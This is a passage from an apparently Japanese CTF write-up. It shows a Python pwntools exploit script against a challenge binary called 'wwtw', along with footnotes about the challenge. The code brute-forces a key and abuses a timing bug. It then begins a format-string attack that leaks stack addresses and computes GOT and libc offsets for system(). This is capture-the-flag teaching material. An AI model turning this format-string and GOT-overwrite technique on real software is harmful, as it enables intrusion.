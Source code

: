 ``` python
            except IndexError:
                pass
        acts.sort(key=lambda x: x[1])
        p.sendline(acts[0][0])
        if acts[0][1] == 0: # reaches the goal
            s = p.recvn(6)
            if s == 'TARDIS':
                p.recvuntil(': ')
                break
            else:
                p.recvline()

def crack_tardis_key():
    return 'UeSlhCAGEp' # by gdb or bruteforce
    key = ''
    while True:
        for c in '\x04' + string.ascii_letters:
            while True:
                p = process('./wwtw')
                try:
                    recv_header(p)
                    solve_game(p)
                except:
                    p.close()
                    continue
                else:
                    break
            p.send(key + c)
            can_recv = p.can_recv(timeout=0.1)
            p.close()
            if not can_recv:
                if c == '\x04':
                    return key
                key += c
                print key
                break

tardis_key = crack_tardis_key()

def activate_tardis(p):
    p.recvuntil('Selection: ')
    p.send('1AAAAAAA\x00')
    p.recvuntil('Selection: ')
    time.sleep(2.1)
    p.send(p32(0x55592B6C + 1))
    p.send('1AAAAAAA\x03')
    p.recvuntil('Selection: ')
    p.sendline('3')

atof_got = 0x5080 # $ objdump -R wwtw | grep '\<atof\>'
# addresses of local libc
atof_offset   = 0x2d310 # $ readelf -s /usr/lib32/libc.so.6 | grep '\<atof\>'
system_offset = 0x3aeb0 # $ readelf -s /usr/lib32/libc.so.6 | grep '\<system\>'

def format_string_attack(p):
    another_tardis = '51.49213699999999960,-0.1928779999999999939' # by gdb

    p.recvuntil('Coordinates: ')
    p.sendline(another_tardis + ' %274$p %275$p')
    p.recvline()
    resp = p.recvline().split()
    _   = int(resp[2], 16) # saved ebp of     sub <+0x1027>
    ret = int(resp[3], 16) # return addr from sub <+0x1027>
```

[^1]: <http://charo-it.hatenablog.jp/entry/2015/05/19/114004>
[^2]: <http://stackoverflow.com/questions/16302575/distinguish-shared-objects-from-position-independent-executables>
[^3]: <https://ezoeryou.github.io/blog/article/2015-04-16-PIC.html>
[^4]: <http://7shi.hateblo.jp/entry/2013/05/25/103050>
[^5]: 1byte漏らしてるのはすぐに気付けたけど、これがsocketを上書きしてることは気付けませんでした。writeupを見ました。
[^6]: libcはuploadされてないだけで本番は与えられていたのかな、と思っていたけどそうではなかったらしい。